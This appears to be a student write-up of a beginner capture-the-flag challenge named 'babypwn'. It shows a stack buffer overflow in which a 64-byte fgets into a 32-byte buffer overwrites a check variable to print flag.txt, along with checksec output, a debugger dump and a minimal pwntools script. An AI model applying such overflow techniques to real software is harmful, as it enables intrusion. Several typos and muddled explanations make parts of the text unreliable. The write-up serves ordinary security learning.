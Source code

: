 # Documentation for the babypwn files

## 'babypwn'

### File Output
```
babypwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped
```
### 'babypwn' checksec output
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols        No       0               2               babypwn
```
## 'babypwn.c'

### 'babypwn.c' File Output
```
babypwn.c: C source, ASCII text
```

## Possible Vulnerabilities
- The character array is initialized as 32 bites but the input is reading 64 bites.
- The check variable was never initialized but it is being compared.
- There is a fixed memory adress.
# Errors from the debug
### Stack issues 
```
$rsp   : 0x00007fffffffddb8  →  0x0041414141414141 ("AAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffd7b0  →  "This is the flag! pwntools!\n"
$rdi   : 0x00007fffffffd780  →  0x00007fffffffd7b0  →  "This is the flag! pwntools!\n"
```
#### Segmentaion Fault Display
```
[#0] Id 1, Name: "babypwn", stopped 0x4012c3 in main (), reason: SIGSEGV
```

## What the program is doing
- The 'babypwn' program begins by creating a character array that serves as a **buffer that stores 32 bites** and a check integer variable
``` C 
struct __attribute__((__packed__)) data {
  char buff[32];
  int check;
};
```
- Then the **get_flag()** function open and prints the text file **flag.txt ONLY IF name.check() is set to 0x41414141.** 
``` C
void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}
``` 
- The program then akss the user for their **name** then reads and stores their input into **'name.buff'**.
``` C
printf("What's your name?\n");
fgets(name.buff, 64, stdin);
```
- A print statement to display the user's name along with a welcome message is executed.
``` C
printf("%s nice to meet you!\n", name.buff);
```
- Lastly, a conditional statement block of code is ran to check **if the user's name is equal to 0X41414141** If the **buffer overflow** occurs, the **'flag.txt' message will appear**.
``` C
if (name.check == 0x41414141) {
  get_flag();
}
```
## Vulnerable function
The **vulnerable function** is the **'fgets()'** because at the start of the program the chracter arrays is to store **32** bites however, the **'fgets()'** function is reading **64 bites**. This will cause  a **BUFFER OVERFLOW**.

## Exploitation Procedure
To exploit this vulnerability, weknew we had to **overwrate 'name.check'**. 0x41414141 dislpays a long series of the letter **'A'** so we simply entered **'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'** when the program asked for a name. This cause the message in the **'flag.txt' to successfully display** because our input was longer than **32 characters** .



# Exploitation Code
``` python 
 #!/usr/bin/env python
 
from pwn import *
 
p = process('babypwn')
 
gdb.attach(p, '''continue''')
 
p.interactive()
```
As shown **above**, the source code the **pwnsol.py** file begins by accessing the **babypwn** file then attaches a **gdb degugger** which allowed us to see what was going on inside of our program. Now the next time the **babypwn** file is ran, our **flag.txt** file will appear.

### 'flag.txt file'
```
This is the flag! pwntools!
```
